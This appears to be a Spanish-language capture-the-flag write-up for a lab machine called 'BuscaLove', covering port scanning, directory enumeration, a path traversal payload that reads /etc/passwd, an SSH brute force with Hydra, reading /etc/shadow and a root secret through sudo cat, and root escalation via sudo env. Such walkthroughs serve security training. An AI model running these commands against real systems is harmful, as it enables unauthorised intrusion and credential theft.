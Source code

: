 ```yaml
---
description: '✍️ Autor: Prendelo  🔍 Dificultad: Fácil  📅 Fecha de creación: 31/05/2024'
---
```


# BuscaLove

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.21.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (325).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.21.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

![](<../../.gitbook/assets/1 (6).png>)

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.21.0.2
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/2 (6).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web sea **Apache2**.

![](<../../.gitbook/assets/3 (6).png>)

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://172.21.0.2/ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -t 
```

<figure><img src="../../.gitbook/assets/image (326).png" alt=""><figcaption></figcaption></figure>

Vemos que hay un directorio **WordPress**, por lo que indagaremos en él, aunque no encontraremos nada relevante en el código fuente. Hacemos un escaneo de los archivos que se encuentren en ese directorio con:

```bash
gobuster dir -u http://172.21.0.2/ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -t 20 -x html,php,txt,js
```

![](<../../.gitbook/assets/5 (6).png>)

![](<../../.gitbook/assets/6 (5).png>)

Aquí solo sabemos que el archivo principal es **index.php**. Vamos a utilizar **wfuzz** para realizar un análisis de fuzzing y determinar si la página web es vulnerable a **Local File Inclusion (LFI)** con el comando:

```bash
wfuzz -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://172.21.0.2/wordpress/index.php?FUZZ=../../../../../../../etc/passwd --hc 404 --hl 40
```

La página web tiene una vulnerabilidad **LFI** que permite acceder a archivos locales del servidor. Al usar **Path Traversal** y escribir:

```bash
?love=../../../../../../etc/passwd
```

en la URL, puedes ver el contenido del archivo `/etc/passwd`, que contiene información sobre los usuarios del sistema.\


<figure><img src="../../.gitbook/assets/7 (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/8 (5).png" alt=""><figcaption></figcaption></figure>

Encontramos a los usuarios **Rosa** y **Pedro** por lo que mediante fuerza bruta intentaremos sacar la contraseña del **SSH**.

### 🚀 EXPLOTACIÓN

Con la información obtenida anteriormente, realizamos el comando:

```bash
hydra -l rosa -P /usr/share/wordlists/rockyou.txt 172.21.0.2 ssh -t 50
```

que utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio **SSH** de una máquina con la IP **172.21.0.2**. Hemos probado con **Pedro**, pero con quien da respuesta es con el usuario **rosa**.

![](<../../.gitbook/assets/9 (5).png>)

Al realizar el ataque de fuerza bruta, hemos descubierto la contraseña de **rosa**, sabiendo esto, nos conectamos a través de **SSH** al usuario con el comando:

```bash
ssh rosa@172.21.0.2
```

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

![](<../../.gitbook/assets/10 (4).png>)

<figure><img src="../../.gitbook/assets/11 (3).png" alt=""><figcaption></figcaption></figure>

Dado que tenemos permisos para usar **sudo** con `ls` y `cat`, podemos explorar cualquier directorio del sistema y acceder a los archivos. Vamos a comenzar enumerando el directorio del usuario **root** para buscar archivos o configuraciones interesantes. Además, podemos leer el archivo `/etc/shadow` para obtener los hashes de las contraseñas de los usuarios y, si es necesario, intentar crackearlos utilizando una wordlist como **rockyou.txt**.

![](<../../.gitbook/assets/12 (3).png>)

Encontramos un archivo llamado **secret.txt** y ahora mostraremos qué contiene con el comando:

```bash
sudo cat /root/secret.txt
```

\
El contenido se encuentra en formato hexadecimal por lo que tocará decodificarlo con esta página [CyberChef](https://gchq.github.io/CyberChef/).

<figure><img src="../../.gitbook/assets/13 (2).png" alt=""><figcaption></figcaption></figure>

![](<../../.gitbook/assets/14 (1).png>)

Observamos que es una contraseña, por lo que intentamos loguear con el usuario **Pedro**. Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

![](<../../.gitbook/assets/15 (1).png>)

Podemos usar **env** para ejecutar una shell con permisos de **root**.

<figure><img src="../../.gitbook/assets/image (497).png" alt=""><figcaption></figcaption></figure>

